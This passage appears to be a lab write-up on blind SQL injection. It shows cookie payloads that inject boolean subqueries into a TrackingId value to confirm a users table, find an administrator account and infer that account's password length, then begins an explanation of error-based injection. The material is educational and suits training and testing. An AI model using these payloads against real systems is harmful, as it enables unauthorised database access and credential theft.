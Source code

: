 To verify there is a table called users ->

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'a' FROM users LIMIT 1)='a
```

* `AND`: This is a logical operator used to combine conditions in SQL queries.
* `(SELECT 'a' FROM users LIMIT 1)='a'`: This part is a subquery. It's attempting to select the character `'a'` from the `users` table with a limit of 1 row. Then, it compares this selected value with the character `'a'`.

Now i want to check if there is a administrator user like the exercice says:

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

Now we need to determine the length of the password ->

```
TrackingId=fNg3RnqiOBbPgwwI'AND (SELECT 'b' FROM users WHERE username='administrator' AND LENGTH (password)>19)='b
```

This returns us Welcome back assuming that it is true but when we put in 20 we don't have it anymore. Just to be sure, we can change to = ->

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Error-based SQL injection

It's when you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.

* Return a specific error response based on the result of a boolean expression.
* Trigger error messages that output the data returned by the query

